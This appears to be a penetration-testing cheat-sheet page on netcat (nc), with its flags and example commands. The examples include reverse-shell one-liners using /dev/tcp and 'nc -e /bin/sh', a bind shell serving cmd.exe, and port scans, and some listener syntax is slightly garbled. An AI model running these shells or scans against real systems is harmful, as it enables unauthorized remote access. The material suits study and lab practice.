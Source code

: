 icon:fontawesome/solid/terminal

# Nc

Versatile networking tool used for reading from and writing to network connections using TCP or UDP.

## Binary for Windows

- [nc.exe](../assets/files/nc.exe){:download="nc.exe"}
- SHA256 ’nc.exe’ - be4211fe5c1a19ff393a2bcfa21dad8d0a687663263a63789552bda446d9421b

## Usage

```bash
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

## Flags

```bash
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Examples

##### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```bash
nc -lvp 10.10.10.2 80
```

##### Transferring files

Receiver

```bash
nc -nlvp 10.10.10.2 4444 > incoming.exe
```

Sender

```bash
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

##### Reverse Shell

Receiver

```bash
nc -nlvp 10.10.10.2 4444
```

Identity connecting and sending the reverse shell:

```bash
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

OR identity connecting and sending the reverse shell:

```bash
nc 10.10.10.2 4444 -e /bin/sh
```

##### Bind Shell

Receiver

```bash
nc -nlvp 4444 -e cmd.exe
```

Identity connecting to bind shell:

```bash
nc -nv <ip> 4444
```

##### Port Scanning (TCP)

**Note: NetCat port scanning is based on the three-way handshake.**

```bash
nc -nvv -w 1 -z 10.10.10.20 3380-3390
```

##### Port Scanning (UDP)

```bash
nc -nv -u -z -w 1 10.10.10.20 160-162
```

## References

- [Linux.die.net](https://linux.die.net/man/1/nc)
